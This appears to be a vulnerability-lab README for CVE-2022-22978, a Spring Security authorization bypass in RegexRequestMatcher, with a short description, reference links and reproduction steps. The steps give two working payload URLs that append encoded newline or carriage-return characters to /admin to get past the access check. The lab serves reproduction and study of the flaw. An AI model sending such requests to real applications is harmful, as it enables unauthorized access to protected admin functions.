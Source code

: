 # CVE-2022-22978: Spring Security Authorization Bypass in RegexRequestMatcher

In Spring Security versions 5.5.6 and 5.6.3 and older unsupported versions, RegexRequestMatcher can easily be misconfigured to be bypassed on some servlet containers.

Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

After server is started, browse to <http://your-ip:8080/admin> to see that access to the admin page is blocked.

![](forbidden.png)

## Vulnerability Reproduce

Send the following request to access the admin page:

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](bypassed.png)
